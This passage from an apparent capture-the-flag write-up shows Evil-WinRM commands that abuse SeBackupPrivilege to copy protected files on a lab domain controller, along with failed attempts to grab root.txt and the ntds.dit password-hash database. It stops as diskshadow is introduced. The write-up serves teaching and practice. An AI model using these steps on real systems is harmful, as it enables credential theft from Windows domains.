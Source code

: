 
But I can copy it and read it:

    
    
    *Evil-WinRM* PS C:\windows\system32\config> Copy-FileSeBackupPrivilege netlogon.dns \programdata\netlogon.dns
    *Evil-WinRM* PS C:\windows\system32\config> type \programdata\netlogon.dns
    2a754031-e5c5-4e88-bb09-09aae693753c._msdcs.BLACKFIELD.local. 600 IN CNAME DC01.BLACKFIELD.local.
    _ldap._tcp.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.Default-First-Site-Name._sites.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.pdc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 389 dc01.blackfield.local.
    _ldap._tcp.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
    _ldap._tcp.Default-First-Site-Name._sites.gc._msdcs.BLACKFIELD.local. 600 IN SRV 0 100 3268 dc01.blackfield.local.
    ...[snip]...
    

Unfortunately, for some reason, I can’t read `root.txt`:

    
    
    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf.txt
    Opening input file. - Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
    At line:1 char:1
    + Copy-FileSeBackupPrivilege \users\administrator\desktop\root.txt 0xdf ...
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
        + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
    

The next file I wanted to grab was `ntds.dit`, the database on the DC that
holds all the password hashes. Unfortunately, I can’t grab it because it’s in
use:

    
    
    *Evil-WinRM* PS C:\programdata> Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
    Opening input file. - The process cannot access the file because it is being used by another process. (Exception from HRESULT: 0x80070020)
    At line:1 char:1
    + Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit .
    + ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : NotSpecified: (:) [Copy-FileSeBackupPrivilege], Exception
        + FullyQualifiedErrorId : System.Exception,bz.OneOEight.SeBackupPrivilege.Copy_FileSeBackupPrivilege
    

### DiskShadow

#### Background / Strategy

A good way to read the `ntds.dit` file is using [another Microsoft
utility](https://docs.microsoft.com/en-us/windows-
server/administration/windows-commands/diskshadow), `diskshadow`:
